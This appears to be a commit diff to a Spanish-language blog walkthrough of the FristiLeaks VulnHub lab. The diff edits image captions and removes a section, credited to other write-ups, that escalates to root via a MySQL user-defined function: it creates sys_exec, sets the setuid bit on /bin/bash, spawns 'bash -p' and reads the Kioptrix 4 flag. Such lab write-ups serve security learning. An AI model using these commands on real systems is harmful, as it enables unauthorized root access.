

Before and after one commit to pgrandoli/pgrandoli.github.io, a Jekyll site: the page built from _posts/2020-02-06-Fristileaks-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 6089 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; after the commit the page ends 7019 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-02-06-Fristileaks-Walkthrough.md
+++ b/_posts/2020-02-06-Fristileaks-Walkthrough.md
@@ -136,7 +136,7 @@ Entrando a http://10.0.0.123 se presenta una página de home de login:
 
 ---
 
-![img]({{ '/assets/images/Fristileaks/login_01.png' | relative_url }}){: .center-image }*(Login)*
+![img]({{ '/assets/images/Fristileaks/login_00.png' | relative_url }}){: .center-image }*(Login)*
 
 ---
 
@@ -219,7 +219,7 @@ Y lo siguiente que aparece si abrimos la imágen resultante es el password:
 
 ---
 
-![img]({{ '/assets/images/Fristileaks/password.png' | relative_url }}){: .center-image }*(Hermoso password)*
+![img]({{ '/assets/images/Fristileaks/password.png' | relative_url }}){: .center-image }*(Nanananana)*
 
 ---
 
@@ -232,7 +232,7 @@ Si pruebo de loguearme con esa credenciales tengo éxito y se presenta la siguie
 
 ---
 
-![img]({{ '/assets/images/Fristileaks/upload_00.png' | relative_url }}){: .center-image }*(Nanananana)*
+![img]({{ '/assets/images/Fristileaks/upload_00.png' | relative_url }}){: .center-image }*(Página de Upload)*
 
 ---
 
@@ -244,45 +244,5 @@ Si pruebo de loguearme con esa credenciales tengo éxito y se presenta la siguie
 
 ---
 
-Al final de todo la enumeración no sirvió más que para encontrar que MySQL corre como **root**, me gustaría decir que soy el genio que logró hacer lo que viene a continuación pero no fue más que copy + paste. Los creditos van para:
-
- - [Abatchy](https://www.abatchy.com/2016/12/kioptrix-level-13-4-walkthrough-vulnhub)
- - [Adam Palmer](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)
 
 ---
-
-```console
-mysql -u root -h localhost
-
-mysql> use mysql;
-mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
-mysql> select sys_exec('chmod u+s /bin/bash');
-
-mysql> exit
-Bye
-john@Kioptrix4:~$ ls -a /bin/bash
-/bin/bash
-john@Kioptrix4:~$ bash -p
-bash-3.2# whoami
-root
-bash-3.2# cat /root/congrats.txt
-Congratulations!
-You've got root.
-
-There is more then one way to get root on this system. Try and find them.
-I've only tested two (2) methods, but it doesn't mean there aren't more.
-As always there's an easy way, and a not so easy way to pop this box.
-Look for other methods to get root privileges other than running an exploit.
-
-It took a while to make this. For one it's not as easy as it may look, and
-also work and family life are my priorities. Hobbies are low on my list.
-Really hope you enjoyed this one.
-
-If you haven't already, check out the other VMs available on:
-www.kioptrix.com
-
-Thanks for playing,
-loneferret
-```
-
----
````
